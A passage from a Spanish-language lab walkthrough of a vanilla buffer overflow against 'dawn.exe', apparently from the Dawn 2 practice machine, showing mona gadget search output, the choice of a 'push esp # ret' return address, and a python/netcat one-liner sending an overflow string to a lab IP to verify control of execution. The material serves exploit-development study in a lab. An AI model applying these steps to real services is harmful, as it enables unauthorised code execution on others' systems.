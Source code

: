 Para esta parte, mona ofrece un comando para la búsqueda de instrucciones JMP o CALL.

```c
!mona jmp -r esp
[+] Results :
0x345964ba : call esp |  {PAGE_EXECUTE_READ} [dawn.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\alexfrancow\Desktop\ExploitingServices\dawn\dawn.exe)
0x34581777 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [dawn.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\alexfrancow\Desktop\ExploitingServices\dawn\dawn.exe)
```

Es necesario escoger un módulo que no tenga múltiples protecciones y que tenga una dirección base sin bad-chars.

En este caso se utilizará la 0x34581777, pero antes de probar a enviar el payload:

```bash
python2.7 -c "print('A'*272+'\x77\x17\x58\x34'+'\x00')" | nc 192.168.1.88 1985
```

Se colocará un breakpoint en esa misma dirección para ver que el programa se está redirigiendo hacia ella.

Con el atajo `Ctrl+G` se va hacia la dirección en memoria de la función:
<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-21-Dawn-2-Vanilla-Buffer-Overflow/Pasted%20image%2020210721171129.png" height="500" width="825" /></p>
